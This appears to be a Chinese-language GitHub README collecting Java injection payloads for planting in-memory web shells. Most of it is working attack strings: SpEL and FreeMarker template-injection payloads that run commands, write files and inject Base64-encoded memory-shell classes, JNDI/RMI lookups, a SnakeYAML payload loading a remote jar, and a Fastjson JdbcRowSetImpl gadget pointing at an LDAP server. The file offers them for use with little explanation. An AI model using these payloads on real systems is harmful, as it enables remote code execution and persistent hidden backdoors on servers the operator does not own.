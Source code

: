 # Memoryshell-JavaALL
我不允许你还不会用JAVA 内存马

## SPEL 

不加模板解析的payload
```
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()
```
加模板解析的payload
```
#{new java.lang.ProcessBuilder({'calc'}).start()}
```
可以回显时使用
```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```
可以打入内存马高版本Spring Core 受限
```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```
使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
```
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}
```
## FreeMarker 

执行命令
```
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}
```
写文件
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}
```
读文件
```
${"freemarker.template.utility.ObjectConstructor"?new()(java.io.FileWriter("/tmp/hh.txt").append("ttt").close())}
```
使用SPEL利用
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}
```
使用SPEL 进行JNDI
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}
```
使用SPEL 加载内存马
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}
```
使用Jython 
```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## YAML

ftp 可以换为HTTP 及其他支持协议
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]
```
## Fastjson

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

------------------------------------------------------------------------------------
各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
